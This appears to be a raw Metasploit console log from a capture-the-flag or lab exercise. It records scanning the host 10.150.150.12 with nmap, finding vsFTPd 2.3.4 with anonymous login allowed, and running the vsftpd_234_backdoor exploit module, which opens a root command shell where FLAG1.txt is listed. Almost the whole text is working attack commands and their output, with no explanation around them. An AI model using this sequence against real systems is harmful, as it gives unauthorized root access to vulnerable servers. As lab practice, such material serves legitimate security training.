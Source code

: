 
***
[msf](Jobs:0 Agents:0) >> db_nmap 10.150.150.12
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 19:36 EAT
[*] Nmap: Nmap scan report for 10.150.150.12
[*] Nmap: Host is up (0.24s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE
[*] Nmap: 21/tcp open  ftp
[*] Nmap: 22/tcp open  ssh
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 3.87 seconds
[msf](Jobs:0 Agents:0) >> db_nmap -sV -sC -p21,22 10.150.150.12
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 19:37 EAT
[*] Nmap: Nmap scan report for 10.150.150.12
[*] Nmap: Host is up (0.29s latency).
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 2.0.8 or later
[*] Nmap: |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to 10.66.66.134
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 2
[*] Nmap: |      vsFTPd 2.3.4 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   3072 1f:bc:e3:e3:5b:eb:ff:b2:30:a7:4c:33:11:bf:67:a3 (RSA)
[*] Nmap: |   256 c8:e4:18:29:59:d0:4e:ea:dc:05:50:bc:d5:6f:e5:00 (ECDSA)
[*] Nmap: |_  256 58:d5:70:6d:0d:80:71:0a:ba:8e:1c:7a:c7:37:2f:e2 (ED25519)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 23.44 seconds
[msf](Jobs:0 Agents:0) >> search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 1
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set RHOSTS 10.150.150.12
RHOSTS => 10.150.150.12
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> run

[*] 10.150.150.12:21 - Banner: 220 Through the portal... - into nothingness or bliss?
[*] 10.150.150.12:21 - USER: 331 Please specify the password.
[+] 10.150.150.12:21 - Backdoor service has been spawned, handling...
[+] 10.150.150.12:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.66.66.134:43459 -> 10.150.150.12:6200) at 2024-09-01 19:49:07 +0300

ls
FLAG1.txt
snap


***
